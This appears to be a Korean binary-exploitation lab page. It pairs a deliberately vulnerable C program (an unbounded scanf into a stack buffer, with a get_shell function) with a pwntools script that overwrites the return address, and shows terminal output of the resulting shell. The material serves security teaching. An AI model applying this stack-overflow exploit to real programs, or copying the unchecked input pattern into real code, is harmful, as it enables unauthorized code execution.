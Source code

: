 ### rao 익스플로잇

```c
/*
 * Name: S3_03_rao.c
 * $ gcc -o S3_03_rao S3_03_rao.c -no-pie
 */

#include <stdio.h>
#include <unistd.h>

void get_shell()
{
	char *cmd = "/bin/sh";
	char *args[] = {cmd, NULL};
	execve(cmd, args, NULL);
}

int main(void)
{
	char buf[0x28];
	printf("Input: ");
	scanf("%s", buf);
	return 0;
}
```

```python
#!/usr/bin/python3
#Name: S3_04_rao.py

from pwn import *          # Import pwntools module

p = process('../material/rao')       # Spawn process '../material/rao'

elf = ELF('../material/rao')
get_shell = elf.symbols['get_shell']       # The address of get_shell()

payload = b'A'*0x30        #|       buf      |  <= 'A'*0x30
payload += b'B'*0x8        #|       SFP      |  <= 'B'*0x8
payload += p64(get_shell)  #| Return address |  <= '\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)        # Send payload to './rao'

p.interactive()            # Communicate with shell
```

```bash
$ python3 S3_04_rao.py 
[+] Starting local process '../material/rao': pid 1589556
[*] '/home/.../material/rao'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
Input: $ id
uid=1001 ...
$
```
